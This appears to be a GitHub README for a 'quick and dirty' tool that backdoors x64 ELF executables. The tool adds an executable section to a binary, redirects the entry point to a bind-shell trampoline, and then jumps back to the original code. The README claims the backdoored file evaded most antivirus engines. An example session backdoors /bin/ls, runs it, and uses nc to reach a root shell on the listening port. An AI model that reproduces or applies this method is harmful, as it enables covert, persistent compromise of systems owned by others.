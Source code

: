 # DirtyELFInjector

Quick and Dirty Backdooring script x64 ELF binaries
Manually injecting shellcode into an arbitrary address of an ELF and hope it does not break, using bash/python/radare2.

## Disclaimer
I'm not responsible for the malicious any usage of this script, execute the binary generated by the script on machines with permission of the owners.
This tool is only a side project I played with.

## How it works
This was inspired by reading Practical Binary Analysis book, it was a great ressource to get the basics right.
How the `Inject` script work.

1. Inject new read/write/execute section, used with objcopy.
2. Change Entry point to the new section with  radare2.
3. Put the payload in the new section, used nasm+ld to compile the Trampoline payload, the default paylaod is a bind shell that listens on 5000.
3. Jump back to the original Entrypoint when at the end of the Trampoline payload.

The trick is to set the section offset on unused code to avoid seg faults.
Successfull test on ls with 0xbeef section offset, no detection from [AV](https://www.virustotal.com/gui/file/cf69e2fe0329c43a8ec0f14599f26d0a78f15aa22cf30336dd59d374a30ea895/detection) like symantec, Kaspersky, fortinet ... was quite surprised for a first attempt.
UPDATE 2020-07-18 got detected by Avast, AVG.

## Requirements
- radare2
- python
## Example usage

```bash
[BlackB0x DirtyELFInjector ]# ./Inject
What Binary you want backdoor in /bin?
ls 
0x0000000000002a8 0x00002a8

0x0000000000002e8 0x00002e8
0x000000000000308 0x0000308
0x0000000000003b8 0x00003b8
0x000000000000fb8 0x0000fb8
0x000000000001574 0x0001574
0x000000000001678 0x0001678
0x0000000000016f8 0x00016f8
0x0000000000034f8 0x00034f8
0x000000000004000 0x0004000
0x000000000004020 0x0004020
0x000000000004040 0x0004040
0x0000000000173c4 0x00173c4
0x000000000018000 0x0018000
0x00000000001d324 0x001d324
0x00000000001dc78 0x001dc78
0x000000000021fd0 0x0020fd0
0x000000000021fd8 0x0020fd8
0x000000000021fe0 0x0020fe0
0x000000000022a58 0x0021a58
0x000000000022c58 0x0021c58
0x000000000023000 0x0022000
0x000000000023280 0x0022268
0x000000000000000 0x0022268
0x000000000000000 0x00222b4
Section Offset? format: 0xbeef
0xbeef
LESO=efbe
objcopy: stVsHkjd: warning: allocated section `.backdoor' not in segment
objcopy: stcR435f: warning: allocated section `.backdoor' not in segment
Original entry=0x5b20
size of shellcode :173 bytes
jmp entry offset=0xbf9c
Warning: run r2 with -e io.cache=true to fix relocations in disassembly
Written 5 byte(s) (jmp 0x5b20 ) = wx e97f9bffff
 -- In Soviet Russia, radare2 has documentation.
^D
[BlackB0x DirtyELFInjector]# file injected_ls 
injected_ls: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4fef2dc9762eb7d4593f402a65cc02bb3d4c48de, for GNU/Linux 3.2.0, stripped
[BlackB0x ls_rev_shell]# netstat -tunelp |grep 12345
[BlackB0x ls_rev_shell]# ./injected_ls
a.out	       bindshell.o  gocave  InjectBytes.py  injected_git  nopsection  OLD   README.md  Trampoline.asm  WORKS
bindshell.asm  Enum	    Inject  injected_find   injected_ls   objcopy     Plan  shellcode  Trampoline.o
[BlackB0x DirtyELFInjector]# netstat -tunelp |grep 12345
tcp        0      0 0.0.0.0:12345           0.0.0.0:*               LISTEN      0          941082     28768/./injected_ls 
[BlackB0x DirtyELFInjector]# nc localhost 12345
id
uid=0(root) gid=0(root) groups=0(root)
^C[BlackB0x DirtyELFInjector]# netstat -tunelp |grep 12345
```
